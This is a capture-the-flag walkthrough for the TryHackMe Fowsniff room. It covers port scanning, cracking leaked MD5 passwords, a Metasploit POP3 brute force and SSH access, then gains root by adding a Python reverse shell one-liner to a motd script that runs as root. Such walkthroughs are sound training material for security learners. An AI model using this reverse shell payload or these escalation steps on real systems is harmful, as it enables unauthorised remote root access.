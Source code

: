 Room: [Fowsniff CTF](https://tryhackme.com/room/ctf)

Difficulty: Easy

Overview: On-going project

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We will start by enumerating all open ports on the remote system and to do so we can use “nmap”:

```
nmap -sV -sC -p- fowsniff.thm -oN nmap.txt

-sV         → Probe open ports to determine service
-sC         → Scan using the default set of scripts
-p-          → Scan all ports
fowsniff.thm  → ip address of the room (added the ip to /etc/hosts and named it)
-oN         → Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/166565008-389610f8-322e-4664-863a-c1e9ec04125c.png)

There are four open ports on the system:

22 → OpenSSH 7.2p2 Ubuntu

80 → Apache httpd 2.4.18

110 → Dovecot pop3d

143 → Dovecot imapd

Since there is an apache webserver running in the system we can use "Gobuster" to search for hidden directories or files in http servers:

![image](https://user-images.githubusercontent.com/76821053/166566478-31c90dd0-f9fa-49b7-ad12-2373e6c3f384.png)

When analysing the results "Gobuster" found a security.txt file that we can access.

![image](https://user-images.githubusercontent.com/76821053/166566690-190a443c-07cf-4192-ad14-1106a39b6ef5.png)

This server was hacked by BigN1nj4! who left a teaser on the website.

Now, the room gave us a hint to look for information using google. A little later i found that the hacker leaked information on [PASTEBIN](https://pastebin.com/NrAqVeeX).

![image](https://user-images.githubusercontent.com/76821053/166566743-734f9fb9-bd15-4b67-b918-d7f297bac6ed.png)

He leaked email and their respective passwords from their databases. The hashes are encrypted in MD5 and to decrypt them we can use sites like [hashkiller](https://hashkiller.io/listmanager) or [hashes.com](hashes.com/en/decrypt/hash).

![image](https://user-images.githubusercontent.com/76821053/166566776-080788b0-f88a-4eae-909f-708dbb0381ec.png)

After decrypting all MD5 hashes i have created two text files, one with the name of the users found and another with the decrypted passwords.

The purpose is to try to brute force the pop3 login service mail with the dictionaries that we have just created from the two text files.

To find a valid login we can use diferent tools but in this case we will use "metasploit".

```
msfconsole

search pop3  - To search for pop3 related content

use auxiliary/scanner/pop3/pop3_login   - To select the option we want to use
```

![image](https://user-images.githubusercontent.com/76821053/166566786-731828e6-2214-475f-bbf0-2250f6651b5b.png)

```
options  -  To list the module options that we need to set to do our brute force 
```
We have to set PASS_FILE and USER_FILE to the path of our text files and set the RHOSTS to the ip we want to target.

![image](https://user-images.githubusercontent.com/76821053/166566802-9c2d140a-4738-43ac-b074-b1961c60ea39.png)

To run this module just hit run

```
run
```

![image](https://user-images.githubusercontent.com/76821053/166566824-ba1078f4-2aa8-42fd-9d09-88b61cd8b0df.png)

Metaspoit attack found a valid user and respective password. With these credentials we have accessed the pop3 email service hosted at port 110.

To access the email service we can use "Telnet". In this website you can find information "Telnet" about commands https://www.shellhacks.com/retrieve-email-pop3-server-command-line/

```
telnet 10.10.125.75 110

USER seina 

PASS *******

LIST     - Lists all messages

RETR 1   - Retrieve first message

RETR 2   - Retrives second message
```

![image](https://user-images.githubusercontent.com/76821053/166566847-a75b12cc-aff6-426a-9a04-a431d03db427.png)

In the first message there is ssh credentials. They belong to user "backsteen".

With them we can connect to the target machine through ssh:

```
ssh backsteen@fowsniff.thm
```

![image](https://user-images.githubusercontent.com/76821053/166566877-f6437936-4876-428f-b5bd-d136916aa6cf.png)

When enumerating the system i searched for any files that can be run by that group users:

```
find / -group users -type f -exec ls -la {} 2>/dev/null \;

```

![image](https://user-images.githubusercontent.com/76821053/166566901-07448446-f980-4184-ba6a-20aae12e5dd0.png)

Found that users group have read/write permissions of a bash script called cube.sh.

![image](https://user-images.githubusercontent.com/76821053/166566918-dfa97f58-bc9f-43d9-81de-23cb4398adbc.png)

After reading the contents of cube.sh we can recognize that this prints the motd (message of the day) that we receive after connecting through ssh.

If we check the directory /etc/update-motd.d/ and look into the executables, the file “00-header” runs the cube.sh script with root permissions.

![image](https://user-images.githubusercontent.com/76821053/166566946-76373e54-79b5-48c1-bd7b-3e12788de657.png)

This is our way to get a privilege escalation in this machine. Since we have group permissions to write cube.sh script we can try and get a reverse shell by including a python3 reverse shell payload.

We need to edit the cube.sh file with "nano" or "vim" and add the python reverse shell.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Pay attention to the syntax because you need to make a little change. Your ip will be between comas.

![image](https://user-images.githubusercontent.com/76821053/166566976-9d18124e-a0e7-41d2-b4c4-a40a231f04a8.png)

Now, to make it work we need to setup a netcat listener and restart the ssh connection to trigger the motd welcome message, because when we connect the the file “00-header” will run the cube.sh script with root permissions and it will run our reverse shell.

![image](https://user-images.githubusercontent.com/76821053/166567250-877a7eed-83b5-4f6a-b846-c0b351b966a6.png)

Success we are now root!!

Just for proof of concept we can print the root flag!

![image](https://user-images.githubusercontent.com/76821053/166567045-7163c720-eba6-496b-bfaf-8e3d8667c762.png)









